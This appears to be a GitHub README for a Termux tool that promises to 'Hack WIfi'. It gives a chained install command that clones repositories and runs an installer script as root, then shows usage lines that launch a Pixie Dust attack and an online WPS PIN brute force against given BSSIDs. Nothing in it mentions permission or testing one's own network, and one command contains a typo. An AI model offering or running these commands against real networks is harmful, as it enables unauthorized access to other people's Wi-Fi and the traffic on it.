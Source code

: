 ## Ahsan wifihack 2
### Hack WIfi Using Termux! (Requires Root)



### Installation :

```bash
pkg update && pkg upgrade && pkg install git python && git clone https://github.com/MDAhsanullah/ahsanwifihackmain && cd ahsanwifihackmain && python Installer.py && apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/MDAhsanullah/ahsanwifihack && cd ahsanwifihack && ls $$ sudo python ahsanwifihack.py -i wlan0 -K
```

#### Example : `sudo python ahsanwifihack/ahsanwifihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python ahsanwifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python ahsanwifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python ahsanwifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
